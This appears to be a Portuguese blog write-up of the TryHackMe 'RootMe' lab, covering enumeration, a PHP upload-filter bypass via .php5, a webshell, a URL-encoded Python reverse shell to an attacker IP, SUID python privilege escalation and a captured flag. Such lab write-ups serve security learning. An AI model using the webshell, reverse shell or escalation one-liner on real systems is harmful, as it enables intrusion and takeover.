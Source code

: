 ```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryhackMe - RootMe - Fácil
date: 2024-01-15 19:01:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, linux, SUID, facil]     # TAG names should always be lowercase
show_image_post: true
---
```

![Alt text](/assets/img/rootmelogo.png){: w="100" h="100" .left}

---
# CTF - Root Me
---
## **Enumeração**

### nmap 

```shell
sudo nmap -sS -Pn -n --disable-arp-ping --stats-every=7s  10.10.246.13 --min-rate 10000 -oA nmapvers -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-13 21:29 -03
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 21:29 (0:00:07 remaining)
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.30% done; ETC: 21:29 (0:00:00 remaining)
Nmap scan report for 10.10.246.13
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.57 seconds
```
{: .nolineno }
### gobuster

```shell
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.10.246.13/uploads              (Status: 200) [Size: 743]
http://10.10.246.13/js                   (Status: 200) [Size: 958]
http://10.10.246.13/css                  (Status: 200) [Size: 1125]
http://10.10.246.13/index.php            (Status: 200) [Size: 616]
http://10.10.246.13/panel                (Status: 200) [Size: 732]
http://10.10.246.13/server-status        (Status: 403) [Size: 277]
http://10.10.246.13/.php                 (Status: 403) [Size: 277]
http://10.10.246.13/.php                 (Status: 403) [Size: 277]
http://10.10.246.13/index.php            (Status: 200) [Size: 616]
http://10.10.246.13/.php                 (Status: 403) [Size: 277]
Progress: 249136 / 249140 (100.00%)
===============================================================
Finished
===============================================================
```
{: .nolineno }


## **Acesso**

Encontrado pagina de upload de arquivos

http://10.10.246.13/panel 

![Alt text](/assets/img/rootme1.png)

Bloqueio de envio de arquivos php, bypass renomeando arquivo para .php5

### Upload de webshell

![Alt text](/assets/img/rootme2.png)

Encontrado arquivo website.zip na home do site

```shell
└─$ ls -R Website          
Website:
css  index.php  js  panel  uploads

Website/css:
home.css  panel.css

Website/js:
maquina_de_escrever.js

Website/panel:
index.php

Website/uploads:
'CAPA CANAL NOVO.png'   shell.php5
```
{: .nolineno }

### Reverse Shell 

```text
http://10.10.246.13/uploads/sh.php5?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.6.125.125%22,4443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```
{: .nolineno }

### Primeira Flag

```shell
bash-4.4$ ls
html  user.txt
bash-4.4$ cat user.txt 
THM{y0u_g0t_a_sh3ll}
```
{: .nolineno }


## **Escalação de Privilegio**

sudo -l precisa de senha
Busca por arquivos SUID

```shell
find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000
```
{: .nolineno }

Encontrado /usr/bin/python

No [GTFObins](https://gtfobins.github.io/gtfobins/python/#suid) como obter root através de SUID no python.  
`./usr/bin/python -c 'import os; os.execl("/bin/bash", "bash", "-p")'`

### **Última flag encontrada** 
![Alt text](/assets/img/rootme4.png){: .w-75 .normal}
    
